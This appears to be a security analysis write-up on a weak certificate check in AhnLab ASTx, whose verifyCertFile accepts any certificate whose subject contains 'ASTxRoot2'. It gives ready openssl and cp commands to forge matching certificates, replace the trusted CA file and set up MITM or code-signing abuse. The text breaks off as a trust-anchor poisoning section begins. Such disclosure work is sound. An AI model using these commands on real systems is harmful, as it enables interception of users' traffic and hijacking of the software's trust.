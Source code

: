 ## Real-World Usage Example

```c
// Actual call from ASTx code
local_495 = verifyCertFile("/opt/AhnLab/ASTx/ConfigFile/ca-certificate2.crt", "ASTxRoot2");
```

### Target Certificate Analysis:
- **File**: `ca-certificate2.crt`
- **Subject**: `O=ASTxRoot2`
- **Issuer**: `O=ASTxRoot2` (self-signed)
- **Expected String**: `"ASTxRoot2"`
- **Verification Result**: PASS (subject contains "ASTxRoot2")

## Complete Attack Vectors

### 1. Certificate Replacement Attack
**Prerequisites**: File system write access to `/opt/AhnLab/ASTx/ConfigFile/`

**Attack Steps**:
1. Generate malicious self-signed certificate with required string:
```bash
openssl req -x509 -newkey rsa:2048 -keyout attacker.key -out malicious.crt -days 365 -nodes \
  -subj "/CN=attacker.evil.com/O=ASTxRoot2"
```

2. Replace legitimate certificate:
```bash
cp malicious.crt /opt/AhnLab/ASTx/ConfigFile/ca-certificate2.crt
```

3. Certificate passes "verification" and establishes attacker's trust anchor

### 2. Man-in-the-Middle Certificate Creation
**Prerequisites**: Network interception capability

**Attack Steps**:
1. Create certificate matching ASTx's expectations:
```bash
# Any of these would pass verification:
openssl req -x509 -newkey rsa:2048 -keyout mitm1.key -out mitm1.crt -days 365 -nodes \
  -subj "/O=ASTxRoot2"

openssl req -x509 -newkey rsa:2048 -keyout mitm2.key -out mitm2.crt -days 365 -nodes \
  -subj "/CN=fake-ahnlab.com/O=ASTxRoot2/C=KR"

openssl req -x509 -newkey rsa:2048 -keyout mitm3.key -out mitm3.crt -days 365 -nodes \
  -subj "/CN=evil.attacker.com/O=Contains_ASTxRoot2_in_subject"
```

2. Use certificate in TLS interception or code signing attacks

### 3. Trust Anchor Poisoning
**Prerequisites**: Understanding of how certificate is used in ASTx crypto operations
